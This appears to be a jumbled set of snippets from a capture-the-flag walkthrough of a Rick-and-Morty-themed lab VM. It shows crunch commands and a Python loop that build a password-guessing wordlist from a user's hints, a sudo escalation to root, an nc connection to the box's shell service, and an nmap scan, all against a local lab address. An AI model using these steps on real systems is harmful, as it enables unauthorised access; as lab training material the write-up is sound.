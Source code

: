 Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.� @

crunch 10 10 -t ,%Curtains -O >> dict.txt
crunch 7 7 -t ,%Flesh -O >> dict.txt


```python
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```

[RickSanchez@localhost home]$ sudo su
[root@localhost home]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost home]# more /root/FLAG.txt 
FLAG: {Ionic Defibrillator} - 30 points

└─$ nc 192.168.56.10 60000                                         
Welcome to Ricks half baked reverse shell...
# ls
FLAG.txt 
# more FLAG.txt 
more FLAG.txt: command not found 
# cat FLAG.txt
FLAG{Flip the pickle Morty!} - 10 Points 

┌──(kali㉿kali)-[~/OSCP/boxes/Rickdiculously]
└─$ sudo nmap -sV -sS -p 13337 192.168.56.10                                               1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 06:49 CEST
Nmap scan report for 192.168.56.10
Host is up (0.00015s latency).

PORT      STATE SERVICE VERSION
13337/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port13337-TCP:V=7.91%I=7%D=4/11%Time=60727FC0%P=x86_64-pc-linux-gnu%r(N
SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
MAC Address: 08:00:27:BF:52:95 (Oracle VirtualBox virtual NIC)
